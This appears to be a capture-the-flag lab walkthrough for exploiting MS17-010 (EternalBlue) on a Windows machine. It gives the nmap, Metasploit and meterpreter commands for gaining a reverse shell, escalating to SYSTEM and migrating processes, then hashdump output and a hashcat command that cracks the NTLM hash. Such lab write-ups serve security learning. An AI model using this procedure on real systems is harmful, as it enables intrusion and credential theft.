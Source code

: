 ## Recon

<details>
<summary> How many ports are open with a port number under 1000? </summary>
  <p></p>

____________________________________________________________________________________________________________________  
  
As we are specifying only ports under 1000 we use the following command:
  
``` nmap [ip] -p 0-1000 ```

As seen below, running this command exposes 3 open ports:
  
![image](https://user-images.githubusercontent.com/66912443/186659494-ca27127c-ef59-4279-8c78-4a66e22f1cd9.png)

____________________________________________________________________________________________________________________  
  
</details>

<details>
<summary> What is this machine vulnerable to? </summary>
<p></p>

____________________________________________________________________________________________________________________ 

The script "vuln" is a CVE detection script that helps discover vulnerabilities in the scanned network. It can be activated with the following command:
  
``` nmap [ip] --script vuln ```
  
As seen below it has identified the machine is vulnerable to "ms17-010"
  
![image](https://user-images.githubusercontent.com/66912443/186661668-94728fae-8558-4642-81a8-3cb717ee4798.png)

____________________________________________________________________________________________________________________  
</details>

## Gain Access

<details>
<summary> Find the exploitation code we will run against the machine. What is the full path of the code? </summary>
  <p></p>
  
____________________________________________________________________________________________________________________ 
  
Rapid7 is a great tool for finding vulnerabilities and their uses along with sometimes instructions on how to complete the exploit yourself. Using rapid7.com's Vulnerability and Exploit Database, this vulnerability can be seen in more detail:
  
``` https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/ ```
  
Talking about instructions on how to complete the exploit yourself, at the bottom of the page the first line of code identifies the exploitation code needed to run against the machine!
  
![image](https://user-images.githubusercontent.com/66912443/186663495-0312c1af-22e4-4549-bfbf-563dda2f2670.png)

____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Show options and set the one required value. What is the name of this value? </summary>
  <p></p>

____________________________________________________________________________________________________________________   
``` RHOSTS ``` is the one required value. This is because RHOSTS determines the ip address of the target.

____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> With that done, run the exploit! </summary>
 
____________________________________________________________________________________________________________________ 

Before running the exploit, make sure to run the following command as by default it will load meterpreter and a follow up question requires converting shell to meterpreter shell.
  
``` set payload windows/x64/shell/reverse_tcp ```
  
Then simply type 'run' and let metaspolit do its thing! If done correctly you will be presented with something similar to the following:
  
![image](https://user-images.githubusercontent.com/66912443/186665440-c9ede66d-7bc3-4245-b47e-a56ceec67727.png)

  
____________________________________________________________________________________________________________________ 

</details>

## Escalate

<details>
<summary> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? </summary>
  
____________________________________________________________________________________________________________________

Thanks to a post by 'Binamra Pandey' I have learnt the command to convert a shell is as follows: 
   
``` post/multi/manage/shell_to_meterpreter ```
  
<p></p>
  
Source = https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646  
____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Select this (use MODULE_PATH). Show options, what option are we required to change? </summary>
  
____________________________________________________________________________________________________________________ 

``` SESSION ``` is the required option as we need to know which session (that has been backgrounded) to run this exploit on. In my example 'session 2' was backgrounded. 
  
To list all sessions use ``` sessions -l ```
  
![image](https://user-images.githubusercontent.com/66912443/186669104-9eca0c90-a0e7-453b-953b-3fc117fda793.png)


____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> Run! If this doesn't work, try completing the exploit from the previous task once more. </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  Running the exploit should lead you to see similar to this below. As seen in the text it says 'Meterpreter session 3 opened'. So the next step would be to navigate to it using the command:
<p></p>  
  
``` sessions 3 ```

  <p></p>  
  
![image](https://user-images.githubusercontent.com/66912443/186669699-49fc84fc-7b7a-49bf-b5e7-6d29bfba8a0b.png)
  
  ____________________________________________________________________________________________________________________ 

</details>

<details>
<summary> Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  Running 'getsytem':
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186670379-144fb6db-c4a8-48e7-8121-2c1bb294e465.png)
  
  Opening a dos shell and running whoami:
  
  ![image](https://user-images.githubusercontent.com/66912443/186670738-df061830-ee4b-4a00-a779-2d34e8402ddd.png)

____________________________________________________________________________________________________________________ 
  
</details>

<details>
<summary> List all of the processes running via the 'ps' command. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  As seen in the cropped screenshot below, powershell.exe as well as many others are running at 'NT AUTHORITY/SYSTEM'. For simplicities sake I will stick with powershell, process ID 3056.
  <p></p>
  
![image](https://user-images.githubusercontent.com/66912443/186671522-82c4c813-c4f0-492d-a3d6-346b435e3657.png)
____________________________________________________________________________________________________________________   

</details>

<details>
<summary> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
This is as simple as the following command:
  
```migrate 3056 ```
  
This is useful as now we are running on a process that has system authority!
  
![image](https://user-images.githubusercontent.com/66912443/186671912-1726b9c4-7c78-41c4-934b-3772421e6a6b.png)

____________________________________________________________________________________________________________________   

</details>

## Cracking

<details>
<summary> Within our elevated meterpreter shell, run the command 'hashdump'. What is the name of the non-default user? </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  The name of the non-default user is <i> jon </i>
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186672534-d803dffa-6966-49a6-8fff-7cb3614836bf.png)

____________________________________________________________________________________________________________________   
</details>

<details>
<summary> Copy this password hash to a file and research how to crack it. What is the cracked password? </summary>

  ____________________________________________________________________________________________________________________ 
  
  <p></p>
  This is the hashdump we will be working with:
  <p></p>
  
``` Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: ```

Windows uses NTLM to authenticate a client on an Active-Directory domain. When it comes to cracking the passwords this is what we will need to select in hashcat. Looking at hashcat's hash mode table we know that NTLM uses hash mode 1000:
  
![image](https://user-images.githubusercontent.com/66912443/186678368-1512a206-2470-4e42-a1f9-22d083e375ae.png)

  
To make the hash easier to work with, I have first copied the hash and put it into a file called 'hash.txt' in the root directory.
  
![image](https://user-images.githubusercontent.com/66912443/186675515-4466972d-a3f0-401f-8c8f-e940ce9b1f96.png)

Next, we will use hashcat to crack the hashes, this includes the hash mode type talked about above:
  
``` hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt ```
  
After letting it run long enough you will have your cracked hash!
  
![image](https://user-images.githubusercontent.com/66912443/186678699-75c0b403-b9b2-477e-9c0f-f43e03e4925c.png)

____________________________________________________________________________________________________________________ 

</details>

## Find Flags!

<details>
<summary> Flag1? This flag can be found at the system root. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> Flag2? This flag can be found at the location where passwords are stored within Windows. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </summary>

Any folded content here. It requires an empty line just above it.

</details>

